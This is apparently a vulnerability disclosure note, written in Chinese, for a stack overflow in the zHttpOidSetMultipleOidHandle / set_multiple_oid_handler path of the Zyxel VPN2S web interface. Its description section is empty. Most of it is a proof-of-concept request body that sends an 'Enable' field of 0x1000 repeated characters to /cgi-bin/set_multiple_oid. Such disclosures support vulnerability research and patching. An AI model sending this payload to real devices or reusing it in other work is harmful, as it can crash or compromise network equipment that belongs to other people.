



# Zyxel vpn2s

 zHttpOidSetMultipleOidHandle栈溢出

zHttpOidSetMultipleOidHandle -> set_multiple_oid_handler

## 漏洞描述



## POC

```shell
data = {
        "url": "/cgi-bin/set_multiple_oid",
        "access": "PUT",
        "oid": "set_multiple_oid",
        "z_obj": [
            {
                "access": "POST",
                "oid": "RDM_OID_IP_IFACE_V6_ADDR",
                "parentOid": "RDM_OID_IP_IFACE",
                "parentIid": [5,0,0,0,0,0],
                "url": "/cgi-bin/broadband",
                "z_obj": {
                    "Enable": "a"*0x1000+".addUncheck"
                }
            }
        ]
    }
```



